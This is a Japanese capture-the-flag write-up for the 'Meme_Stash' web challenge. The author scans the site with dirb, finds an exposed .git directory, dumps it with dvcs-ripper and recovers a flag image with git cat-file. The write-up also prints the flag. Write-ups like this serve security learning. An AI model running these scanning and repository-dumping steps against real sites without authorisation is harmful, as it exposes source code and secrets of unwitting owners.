

# Meme_Stash:Web:441pts
```
White Wolf cloned this website for some memes while browsing some memes he stumbled upon the flag but now he is not able to find it can you help him
Note: This chall does not require any brute forcing
```
[Link](http://meme-stash.darkarmy.xyz/)  

# Solution
アクセスするとミームの保存場所なようだが、静的なページで攻撃の取っかかりが無い。  
Admin's Meme_Stash  
[site.png](site/site.png)  
dirbに頼る。  
```bash
$ dirb http://meme-stash.darkarmy.xyz/
~~~
GENERATED WORDS: 4612

---- Scanning URL: http://meme-stash.darkarmy.xyz/ ----
+ http://meme-stash.darkarmy.xyz/.git/HEAD (CODE:200|SIZE:21)
+ http://meme-stash.darkarmy.xyz/index.html (CODE:200|SIZE:1874)
~~~
```
.gitがあるようだ。  
[dvcs-ripper](https://github.com/kost/dvcs-ripper)で全て落として解析する。  
```bash
$ ./rip-git.pl -v -u http://meme-stash.darkarmy.xyz/.git/
[i] Downloading git files from http://meme-stash.darkarmy.xyz/.git/
[i] Auto-detecting 404 as 200 with 3 requests
[i] Getting correct 404 responses
[i] Using session name: EKGdRNax
[!] Not found for COMMIT_EDITMSG: 404 Not Found
[d] found config
[d] found description
[d] found HEAD
[d] found index
[d] found packed-refs
[!] Not found for objects/info/alternates: 404 Not Found
[!] Not found for info/grafts: 404 Not Found
[d] found logs/HEAD
[d] found objects/74/7f8b0e2915bb6185848e2a27b6cb2e37be6d83
[!] Not found for refs/heads/master: 404 Not Found
[i] Running git fsck to check for missing items
notice: HEAD points to an unborn branch (main)
Checking object directories: 100% (256/256), done.
error: 3dcdc9d93ab5b05228c3e4950d57a1c24751eb01: invalid sha1 pointer in cache-tree
[d] found objects/a1/8518b0133ce59be487bd61a675a2130238ac98
[d] found objects/83/7cdbe893ac96998e2c5f523b906c519ec5005a
[d] found objects/2a/e8ba9e461f9c44f86fb9bdbfae9a2f82a1a032
[d] found objects/2c/dfab38e64a1a97e02d6bbe3801ca51d508aed2
[d] found objects/8f/e8fb21b73bceac61db2bcc7b72d31a9b564e6d
[d] found objects/91/010559a7387a3b24d157a0e32acbd60339db00
[d] found objects/33/4ed6aeb833d46f81e5882b4c6f6712e9b071b9
[d] found objects/14/6831302c94e3dfed16c9a90baed8770a82b544
[d] found objects/15/f0c294c29663d22ed07841bd0f863c79daf5a0
[d] found objects/74/3414208ede0f80fd5fd821e0756916378c8aba
[d] found objects/99/504cd1398a7f7ec3a5baaaa05e297c61c2189d
[d] found objects/5a/7136b7eb012e790511efa69e39326e4c569e22
[d] found objects/dc/5774b462a1b9706538026cea32d72498ea8797
[d] found objects/3d/cdc9d93ab5b05228c3e4950d57a1c24751eb01
[i] Got items with git fsck: 14, Items fetched: 14
[i] Running git fsck to check for missing items
notice: HEAD points to an unborn branch (main)
Checking object directories: 100% (256/256), done.
error: 430b29a5542aaa222aff94b3c19bc80961aff64b: invalid sha1 pointer in cache-tree
[d] found objects/43/0b29a5542aaa222aff94b3c19bc80961aff64b
[d] found objects/59/d72179a0ca8cc03132d6ce30c8ca4bc9ad3a34
[d] found objects/e1/287a203c205104af6474d8ba188366653b772c
[i] Got items with git fsck: 3, Items fetched: 3
[i] Running git fsck to check for missing items
notice: HEAD points to an unborn branch (main)
Checking object directories: 100% (256/256), done.
[d] found objects/51/f6f6560cf4edd5f6f8b59c141c3dbce916a20b
[d] found objects/d6/c0c5a409c9ec655a8dde53f1d998f723a90fcb
[d] found objects/2e/fb9de5b8bae537662db67ae959c828c95496b4
[d] found objects/ee/bd2bb56a17352de1e6cc9b3aee66fe8a2cdb5e
[i] Got items with git fsck: 4, Items fetched: 4
[i] Running git fsck to check for missing items
notice: HEAD points to an unborn branch (main)
Checking object directories: 100% (256/256), done.
[d] found objects/a0/ecc15b44e86be4472eec30a2947f568f00f5b0
[d] found objects/ba/a389503d746fe8977f7f888ba72f280891e6bd
[i] Got items with git fsck: 2, Items fetched: 2
[i] Running git fsck to check for missing items
notice: HEAD points to an unborn branch (main)
Checking object directories: 100% (256/256), done.
[i] Got items with git fsck: 0, Items fetched: 0
[!] No more items to fetch. That's it!
fatal: You are on a branch yet to be born
```
objectsの中身を確認していくと以下のようなものが見られた。  
```bash
$ git cat-file -p 51f6f6560cf4edd5f6f8b59c141c3dbce916a20b
100644 blob dc5774b462a1b9706538026cea32d72498ea8797    1.jpg
100644 blob 15f0c294c29663d22ed07841bd0f863c79daf5a0    2.jpg
100644 blob 2ae8ba9e461f9c44f86fb9bdbfae9a2f82a1a032    3.jpg
100644 blob 5a7136b7eb012e790511efa69e39326e4c569e22    4.jpg
100644 blob a18518b0133ce59be487bd61a675a2130238ac98    5.jpg
100644 blob 743414208ede0f80fd5fd821e0756916378c8aba    6.jpg
100644 blob 837cdbe893ac96998e2c5f523b906c519ec5005a    7.jpeg
100644 blob 99504cd1398a7f7ec3a5baaaa05e297c61c2189d    8.jpeg
100644 blob 334ed6aeb833d46f81e5882b4c6f6712e9b071b9    9.jpg
100644 blob a0ecc15b44e86be4472eec30a2947f568f00f5b0    flag.jpg
```
flag.jpgが怪しいので復元する。  
```bash
$ git cat-file -p a0ecc15b44e86be4472eec30a2947f568f00f5b0 > flag.jpg
```
以下の画像が得られた。  
  
flagが書かれていた。  

## darkCON{g1t_d4_fl4g}